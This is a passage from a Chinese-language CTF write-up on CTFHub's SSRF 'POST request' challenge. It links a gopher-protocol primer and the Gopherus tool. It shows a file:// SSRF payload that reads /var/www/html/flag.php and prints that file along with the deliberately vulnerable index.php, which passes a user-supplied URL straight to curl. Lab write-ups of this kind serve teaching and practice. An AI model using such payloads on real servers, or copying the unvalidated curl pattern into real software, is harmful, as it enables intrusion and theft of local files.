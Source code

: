 py脚本进行爆破

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-Dlgpqdav-1617064499765)(http://images2.5666888.xyz//QQ图片20210114112554.png)]

（1/13基操↑）

### POST请求

#### 提示：

这次是发一个HTTP POST请求.对了.ssrf是用php的curl实现的.并且会跟踪302跳转.加油吧骚年

#### 扫盲：

[Gopher协议与redis未授权访问](https://mp.weixin.qq.com/s/umNUpdz6Mqvhlgqu4-9NCQ)

#### 自动组装gopher工具：

https://github.com/tarunkant/Gopherus

#### 开始解题：

1.读取flag.php

利用file://协议去读取`?url=file:///var/www/html/flag.php`

```
<?php

error_reporting(0);

if ($_SERVER["REMOTE_ADDR"] != "127.0.0.1") { //检测你请求的ip地址，这里是你挂的代理的ip没挂就是真实ip
    echo "Just View From 127.0.0.1";
    return;
}

$flag=getenv("CTFHUB");//从环境中取字符串变量取得当前系统的环境变量
$key = md5($flag);

if (isset($_POST["key"]) && $_POST["key"] == $key) {
    echo $flag;
    exit;
}
?>

<form action="/flag.php" method="post">
<input type="text" name="key">
<!-- Debug: key=<?php echo $key;?>-->
</form> 
```

再读取index.php

```
<?php

error_reporting(0);

if (!isset($_REQUEST['url'])){
    header("Location: /?url=_");
    exit;
}

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $_REQUEST['url']);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_exec($ch);
```